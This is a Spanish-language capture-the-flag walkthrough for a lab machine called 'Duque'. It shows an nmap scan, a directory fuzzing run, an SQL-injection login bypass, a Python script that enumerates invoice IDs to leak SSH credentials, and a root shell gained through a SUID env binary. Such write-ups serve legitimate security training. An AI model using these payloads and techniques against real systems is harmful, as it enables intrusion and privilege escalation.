






# Máquina Duque

#### OS: Linux
#### Tier: Easy
#### IP de ejemplo: 172.17.0.2

## Reconocimiento
comenzamos realizando un escaneo de puertos por tcp con `nmap`:
```
sudo nmap -sS -p- --open --min-rate 5000 -vvv -Pn -n 172.17.0.2
```
```
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```
dos puertos abiertos: 22 con SSH y 80 con un servidor http. Verifiquémoslo con los scripts básicos de nmap (-sC) y tratemos de detectar la versión para cada servicio con -sV 
```
nmap -sCV -p22,80 -T4 172.17.0.2
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 84:aa:fd:4d:67:65:79:a1:a9:5a:76:55:04:5a:21:b5 (ECDSA)
|_  256 67:bb:74:40:28:18:94:00:0c:bf:fc:08:17:b1:61:8b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: NaturGas Solutions - Dashboard Corporativo
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

parece que en el puerto 80 se está alojando una web. Al entrar vemos lo siguiente:



es una página sencilla, generada por IA. Algunas de las funcionalidades del panel superior, como intranet o empleados devuelve 403 acceso denegado.



Para hacernos una mejor idea de las rutas accesibles vamos a realizar fuzzing.
```
❯ ffuf -c -ic -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://172.17.0.2/FUZZ -t 100
```
```
.htaccess               [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 37ms]
.htpasswd               [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 64ms]
bills                   [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 0ms]
intranet                [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 0ms]
proveedores             [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 0ms]
server-status           [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
```

bills es nueva, accedamos



es un panel de login. Credenciales como `admin/admin` o `admin/password` no son efectivas, pero podemos probar una inyección SQL, algo típico en webs vibecodeadas. Para ello usaremos `admin' -- ` en el campo de usuario (notad el espacio) y `test` como contraseña. Bypasseamos el login y entramos directamente como administrador



podemos ver detalles de facturas, podemos ver un id `xya456` para enero y un id `xyu597` para febrero, aunque por el formato podemos asumir que hay más. Dado que se refleja en la URL (http://172.17.0.2/bills/panel.php?id=xyu597) podemos construir un script muy simple que automatice la detección para buscar más posibles facturas, asumiendo el formato xylnnn siendo l una letra lowercase y n un número: 

```
#!/usr/bin/env python3
# PoC - fuzzing de IDs en /bills/panel.php  (patron xy[a-z][0-9]{3} = 26.000 IDs)
#
# uso:
#   python3 bill-fuzz.py -u "http://172.17.0.2/bills/panel.php?id=xya456" \
#                        -o hallazgos.txt -t 25 --cookie="PHPSESSID=..."
#
# requiere: pip install requests

import argparse
import random
import string
import threading
from collections import Counter
from concurrent.futures import ThreadPoolExecutor

import requests

ap = argparse.ArgumentParser()
ap.add_argument("-u", "--url", required=True)
ap.add_argument("-o", "--output", default="hallazgos.txt")
ap.add_argument("-t", "--threads", type=int, default=20)
ap.add_argument("--cookie", default=None)
args = ap.parse_args()

IDS = [f"xy{l}{n:03d}" for l in string.ascii_lowercase for n in range(1000)]
local = threading.local()


def get(url):
    """GET con sesión por hilo; devuelve (status, longitud)."""
    if not hasattr(local, "s"):
        local.s = requests.Session()
        local.s.headers["User-Agent"] = "Mozilla/5.0"
        if args.cookie:
            local.s.headers["Cookie"] = args.cookie
    try:
        r = local.s.get(url, timeout=8)
        return r.status_code, len(r.content)
    except Exception:
        return 0, 0


# baseline: firma de respuesta para un ID inexistente
firmas = Counter(get(f"{args.url[:-6]}{i}") for i in random.sample(IDS, 5))
base_status, base_len = firmas.most_common(1)[0][0]
print(f"[*] baseline: status={base_status} len={base_len}  ({len(IDS)} IDs a probar)")

hits = 0


def probe(id_):
    global hits
    status, largo = get(f"{args.url[:-6]}{id_}")
    if status and status != base_status or abs(largo - base_len) > 50:
        hits += 1
        print(f"[+] {id_} -> {status} ({largo} bytes)")
        out.write(f"{id_}\t{status}\t{largo}\n")
        out.flush()


with open(args.output, "w") as out, ThreadPoolExecutor(args.threads) as ex:
    list(ex.map(probe, IDS))

print(f"[*] fin: {hits} hallazgos -> {args.output}")
```

Al correr el script vemos que todos los resultados válidos devuelven `6163` bytes, eso es la respuesta común:
```
Cliente
Empresa Estándar
Monto
100€
Estado
Procesada
```
mientras que hay uno, `xyc724`, que devuelve `5994` bytes, veamos a ver qué pone



## Initial Infiltration


vamos a usar esas credenciales para entrar por ssh a la máquina

```
❯ ssh duque@172.17.0.2

Password: duquelaje81029557!
```

> nota: si sale un error tipo "WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED!" haz este comando: `ssh-keygen -f '/home/tu-home/.ssh/known_hosts' -R '172.17.0.2'`

```
duque@077303a3f904:~$ id
uid=1000(duque) gid=1000(duque) groups=1000(duque)
```


## Privilege Escalation

ahora que estamos como duque en la máquina, vamos a escalar privilegios. Empezamos listando permisos a nivel de sudoers:
```
duque@077303a3f904:~$ sudo -l
[sudo] password for duque: 
Sorry, user duque may not run sudo on 077303a3f904.
```
no tenemos privilegios a nivel de sudoers, investiguemos binarios SUID
```
find / -perm -4000 2>/dev/null
```
entre los resultados clásicos (su, sudo, mount...) destaca env, lo que no es común. Busquemos en GTFobins.org



vemos en la entrada de SUID que podemos ejecutar una shell como root usando el comando env /bin/sh -p. Probamos:
```
duque@077303a3f904:~$ env /bin/sh -p
# id
uid=1000(duque) gid=1000(duque) euid=0(root) groups=1000(duque)
# whoami
root
# 
```
nuestro effective UID es 0, tenemos privilegio de root

### Resumen:
SQLi -> parameter fuzzing -> information leakeage -> env SUID
